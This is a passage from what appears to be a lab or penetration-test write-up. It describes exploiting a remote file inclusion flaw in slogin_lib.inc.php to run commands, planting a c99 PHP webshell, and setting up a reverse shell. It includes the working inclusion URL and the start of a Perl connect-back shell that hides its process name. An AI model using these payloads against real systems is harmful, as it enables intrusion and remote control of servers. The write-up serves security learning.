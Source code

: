 Around 4pm, I tried this :

[http://192.168.6.66/1/slogin\_lib.inc.php?slogin\_path=http://192.168.6.71/&cmd=ls%20-als](http://192.168.6.66/1/slogin_lib.inc.php?slogin_path=http://192.168.6.71/&cmd=ls%20-als)

[![image](../../../_resources/2aa78d66463648879a7454ab6407708f.png "image")](https://www.corelan.be/wp-content/uploads/2010/05/image22.png)

[![image](../../../_resources/f77cac09253f45aeb2dbc7af0433b267.png "image")](https://www.corelan.be/wp-content/uploads/2010/05/image23.png)

aha- that looks great. It looks like code can be injected (header.inc.php file) and it would run on the webserver. (header.inc.php is added to the request automatically, so if I host some code in a file called header.inc.php, it would get included by just pointing the parameter to the root of the webserver.

I already figured out I can run commands within the context of the webserver account, but perhaps things can be made a bit easier : inject a full blown php shell.

Plan :

- get a copy of a php webshell (I used c99 but there are many more)
- rename it to header.inc.php,
- host it somewhere so it can be injected into the request
- inject/execute it

Where can I find a webserver for this… ?  I could try to host it on my attacker machine… but there is a better solution.  There’s a webserver (surgemail) available on 192.168.6.70/71/72.   I have ftp write access to that server, so I can just drop some files in the c:\\surgemail\\www folder.

In addition to the webshell, it might be nice to have a reverse shell set up from the webserver to my box, so I can easily issue OS commands.  One of my friends (mr\_me) gave me a copy of cb\_shell.pl, I simply renamed it to corelanshell.pl and uploaded it to the webserver as well :-)

```
#!/usr/bin/perl
#
# Connect back shell version 0.0
# Created by Depth
# Full hide version
# Use: cb_shell.pl   
# netcat -l -p  (localhost)
# 

use IO::Socket;
$0 = $ARGV[2];
my $sock = new IO::Socket::INET (PeerAddr => $ARGV[0],PeerPort => $ARGV[1],Proto => 'tcp');
connect(CLIENT,$sockaddr); 

print $sock ":: Depth :: Connect Back Shell ::\n";
```